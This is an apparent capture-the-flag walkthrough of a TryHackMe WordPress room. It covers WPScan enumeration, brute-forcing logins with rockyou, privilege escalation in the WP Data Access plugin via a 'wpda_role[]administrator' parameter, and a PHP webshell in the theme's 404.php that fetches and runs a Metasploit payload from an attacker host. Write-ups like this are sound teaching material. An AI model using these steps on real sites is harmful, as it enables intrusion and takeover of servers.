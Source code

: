 room_url: https://tryhackme.com/r/room/breakmenu

------------------**Recon**---------------------

**Nmap** scan found only two open ports **22** and **80**

![nmap-1](https://github.com/user-attachments/assets/b8e393c4-68aa-43dd-b6d1-1d1b9e8f1d10)

**directory brute forcing**

start with common.txt word-list and find simple WordPress blog endpoint among other things (other word lists have no more interesting endpoints).

![fuzzing](https://github.com/user-attachments/assets/6e44dbf5-9f92-46e8-9607-2bb94e46197c)

the blog have no interesting url's

![index](https://github.com/user-attachments/assets/09514868-af27-446c-a1c2-6dc991c2d0cb)

---------**Foothold**--------------------------------
since this is WordPress application, best thing to do is run WPScan to enumeration the application (register for free to get api token at https://wpscan.com/api/)

`wpscan --url http://IP/wordpress/ --plugins-detection mixed --plugins-version-detection mixed -e u,vp --api-token rzsE3U.............`


![wpscan-1](https://github.com/user-attachments/assets/d13010af-15c1-4d3b-a7f5-93d8f651d317)


**4 vulnerabilities identified in wordpress** core unfortunately no **Poc's** 

![wpscan-2](https://github.com/user-attachments/assets/a4772a94-2860-4151-b4e0-64cb5b9a487f)


**4 vulnerabilities identified in plugin 'wp-data-access'** what cough my eye are  "Unauthenticated SQL Injection" and "Cross-Site Request Forgery makes it possible for unauthenticated attackers to trigger backups" i didn't find Poc's nor did i manage to locate route for the parameters that are vulnerable to sqli. 

![wpscan-3](https://github.com/user-attachments/assets/29b1d95f-9b33-4bb3-b25c-32cdfb6ffa73)

it tooke hour until i decided to brute force login panel, as we alredy know 2 users from wpscan


![wpscan-4](https://github.com/user-attachments/assets/286c162d-8c99-42e8-8a60-466dc39d8e5d)


`wpscan --url http://10.10.203.217/wordpress/ --plugins-detection mixed --plugins-version-detection mixed -e u --passwords /usr/share/wordlists/rockyou.txt`

![wpscan-5](https://github.com/user-attachments/assets/214c436b-472e-4c71-bfb3-249e9d97d104)

We found **bob** password and as this is my second time solving the box i killed admin password brute force since i was unable to get it first time

![wpscan-6](https://github.com/user-attachments/assets/6bc71ae2-46e9-46a6-b16b-b582c7a0fdc8)

**bob dashboard** 

![bob](https://github.com/user-attachments/assets/ce42b517-e1c6-4a18-91e3-63d23f37b51a)

**Privilege Escalation:**

since bob is low level user and our enumeration provided priv-esc vulnerability, our next step is exploiting **Privilege Escalation Vulnerability in WP Data Access WordPress Plugin**":

**Poc** at : https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/


`The WP Data Access plugin for WordPress is vulnerable to privilege escalation in versions up to, and including, 5.3.7. This is due to a lack of authorization checks on the multiple_roles_update function. This makes it possible for authenticated attackers, with minimal permissions such as a subscriber, to modify their user role by supplying the ‘wpda_role[]‘ parameter during a profile update. This requires the ‘Enable role management’ setting to be enabled for the site.`

so by adding "`wpda_role[]administrator`" to our update profile request 

steps:

add info to some field:
![priv-esc-1](https://github.com/user-attachments/assets/d8bae0da-2c3e-4a89-8b71-c456c5bb29d9)

 interception request and add `wpda_role[]administrator` parameter to request body:
![priv-esc-2](https://github.com/user-attachments/assets/b4aec1f4-413b-43f3-b1d9-dd005f85ac2f)

we get redirected and our privilege elevated 🥇 

![priv-esc-3](https://github.com/user-attachments/assets/6b63a99f-3688-43af-92d6-b0637452178f)



-------------**Reverse Shell and root system privileges**-------------------
this is the part where 'made easy' in the title come from.

in order to get rev-shell in WordPress  we replace the content of them with a reverse shell, to make our priv-esc easier we use Metasploit:

Run `msfconsole`

`msf6 > use exploit/multi/script/web_delivery` and fill the options

we get our command and edited it as follow:

```
<?php
$command = 'wget -qO otdUOuYR --no-check-certificate http://ip:port/payloadNma; chmod +x otdUOuYR; ./otdUOuYR& disown';
shell_exec($command);
?>
```

**404 them for 2021 year found in**: http://ip/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwentyone


 
![wpscan-7](https://github.com/user-attachments/assets/651f8c9f-dfc8-4653-8f98-938ff67a70a3)



![priv-esc-4](https://github.com/user-attachments/assets/b76ad0d4-8449-4f22-900d-83b2868355cc)




run shell by accessing our edited theme in: http://ip/wordpress/wp-content/themes/twentytwentyone/404.php

![wpscan-8](https://github.com/user-attachments/assets/0e0b8dfa-2a1f-48d4-8a36-a4e0e7494b85)




-----------------------------**root system privileges**

Metasploit Framework have lovely Post exploitation module that  suggests local meterpreter exploits that can be used to elevate privileges:

` use post/multi/recon/local_exploit_suggester`


 

![suggester-1](https://github.com/user-attachments/assets/91554174-ae6f-4050-9283-9b069fbe751b)


using **dirty-pip kernel exploit** we manage to elevate our privileges to root

**now we search for the flags**


![suggester-4](https://github.com/user-attachments/assets/0e4d16ec-5d8e-4704-9f1c-d2b8bbec2c57)


![suggester-5](https://github.com/user-attachments/assets/d48f84a9-22db-489f-bc1a-46b5c4422a89)




